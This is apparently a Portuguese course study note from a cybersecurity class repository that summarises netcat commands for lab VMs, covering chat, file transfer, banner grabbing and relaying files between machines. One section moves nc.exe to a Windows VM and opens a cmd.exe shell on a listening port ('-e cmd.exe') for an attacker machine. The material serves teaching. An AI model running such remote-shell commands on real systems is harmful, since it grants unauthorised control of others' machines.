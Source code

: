 # FIAP-Cyber

#### Resumo colega: https://www.notion.so/flaviovicentin/Cybersecurity-b35d9c73f60249cdb12c28dc66c0d06a

## Resumo de Comandos

### Instalação e Configuração

- Instalar o Netcat:
- apt install netcat

- Iniciar um servidor HTTP em Python na porta 8080:
python3 -m http.server 8080

### Comandos Básicos

- Estabelecer uma conexão TCP com um host:
nc -v 192.168.1.10 8080

- Mostrar informações detalhadas sobre as conexões:
OPTIONS / HTTP/1.0
GET / HTTP/1.1

- Mostrar as conexões de rede:
netstat -nltp

### Manter Conexão com o Servidor

- Enviar uma requisição OPTIONS e manter a conexão:
printf "OPTIONS / HTTP/1.0\r\n\r\n" | nc 192.168.1.10 80

- Verificar o IP do webserver em Python:
ip -br -c a

### Chat Simples

- Abrir uma porta para o servidor:
nc -lvp 1234

- Interagir com a porta do servidor:
nc -v 192.168.1.10 1234

### Transferência de Arquivos

- Criar e enviar um arquivo do servidor para o cliente:
echo "P4sswd" > senha.txt
cat senha.txt | nc -lvp 1234
nc -v 192.168.1.10 1234 > passwd.txt

- Exibir o hash MD5 do arquivo:
md5sum senha.txt


### Transferência de Executáveis

- Transferir o arquivo nc.exe para uma máquina Windows:
python3 -m http.server 1234
nc -nv 192.168.1.30 4444


- Abrir uma porta no lado do cliente para executar o nc.exe e conectar à máquina do atacante:
nc.exe -nvlp 4444 -e cmd.exe

Certifique-se de adaptar os endereços IP e portas conforme necessário para sua configuração.

### Comandos

- Criação de chat simples (servidor e cliente precisam estar na mesma rede):
nc -lvp 1234
nc -v 192.168.1.10 1234

- Transferir o nc.exe para uma VM Windows:
python3 -m http.server 1234
nc -nv 192.168.1.30 4444

### Enviar Arquivo entre Três Máquinas

Kali > VM01 > VM02

- No Kali, executar o seguinte comando no arquivo desejado:,
nc -l -p 1234 > video.avi

- Na VM01, receber o arquivo da máquina Kali e disponibilizar para a VM02:
nc -v 192.168.1.10 1234 | nc -l -p 4321




